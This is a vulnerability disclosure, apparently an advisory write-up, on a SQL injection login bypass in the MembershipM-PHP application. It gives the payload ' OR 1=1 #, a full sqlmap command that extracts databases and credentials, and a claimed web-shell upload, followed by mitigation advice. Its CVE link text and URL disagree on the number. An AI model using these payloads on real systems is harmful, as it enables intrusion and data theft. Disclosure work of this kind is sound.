







# 🚨 Security Vulnerability Report: SQL Injection in MembershipM-PHP 🚨

## 📁 Vulnerability: Login Bypass via SQL Injection at MembershipM-PHP

### 🌍 Associated CVE Details: [CVE-2024-46472](https://www.cve.org/CVERecord?id=CVE-2024-46471)

### 🔍 Overview

A Login Bypass & Blind SQL injection vulnerability has been identified in the MembershipM-PHP web application, specifically targeting the email parameter on the login page.

### 🛠️ Affected Component

- Application: MembershipM-PHP
- Vulnerable Path: `/`

### 🔢 Steps to Reproduce

1. **Access the application's Login Form URL**

   Navigate to the MembershipM-PHP application's Login Form in your web browser.

   

2. **Give ' to email parameter**

   Add `'` to the end of the email parameter's value & Application will generate MYSQL Error

   

3. **Added # to email parameter**

   Added `'#` to the end of the email parameter's value & Application will stop emiting the MYSQL error , which leads to us as `#` is commenting out everything after `'` in the SQL query.

   

4. **Gave Login Bypass via SQL Injection Payload for Login Bypass**

   Added `' OR 1=1 #` to the email parameter , which will lead to join as a 1st Account/User in the User's Table & we can further escalate it to Multiple Users Access via using `limit` SQL function.

   

5. **Accessing the User's Dashboard after Redirecting**

   We got ourselves successfully a User's Dashboard using Login Bypass Payload

   

6. **SQL Injection using sqlmap**

   Using `sqlmap -u "http://192.168.0.185:80/MembershipM-PHP/" --data="email=admin%40mail.com&password=codeastro.com&login=" --cookie="PHPSESSID=8tm190nbfm2vcfo5v536udem1f" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36" --referer="http://192.168.0.185/MembershipM-PHP/" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=4 --time-sec=5 --technique=BEUSTQ -b --current-user --dbs --current-db --batch --answers="crack=N,dict=N,continue=Y,quit=N"` payload , we got the sql injection in the email parameter & got the database credentials

   
   

7. **OS Shell Retrived for Command & Control of the Backend Server**

   Through SQL Injection , we uploaded `crafted.php` file into the Backend Server & got our OS Shell 

   

## 🔐 Security Impact

This vulnerability can lead to several security risks:

- **Unauthorized access** to sensitive information (e.g., user emails, passwords).
- **Database enumeration** and data extraction.
- **Potential system compromise** depending on the privileges of the database user.

## 💡 Solution

To mitigate this vulnerability, implement the following measures:

1. ✅ **Input Validation and Sanitization**
   - Implement **prepared statements** with parameterized queries.
     ```php
     $stmt = $pdo->prepare("SELECT * FROM users WHERE email = :email AND password = :password");
     $stmt->execute(['email' => $email, 'password' => $password]);
     ```
   - Always validate and sanitize inputs to ensure they conform to expected formats.

2. 🔒 **Use ORM or Framework Security Features**
   - Utilize **ORM frameworks** like **Doctrine** or **Eloquent** which automatically escape inputs.

3. 🚧 **Error Handling**
   - Avoid displaying **detailed error messages** that might assist attackers in crafting SQL queries.

4. 🔍 **Database Permissions**
   - Ensure the database user used by the web app has **limited privileges**, reducing the potential damage from an SQL injection attack.

## 🏁 Conclusion

We demonstrated how a Blind SQL Injection attack works on the email parameter of the MembershipM-PHP login page. Through this attack, we managed to bypass authentication and manipulate the SQL queries. To mitigate these risks, it's crucial to adopt secure coding practices, including using prepared statements, proper input validation, and regular security checks.

Remember to regularly perform security audits and keep your application updated to prevent similar vulnerabilities in the future.

---
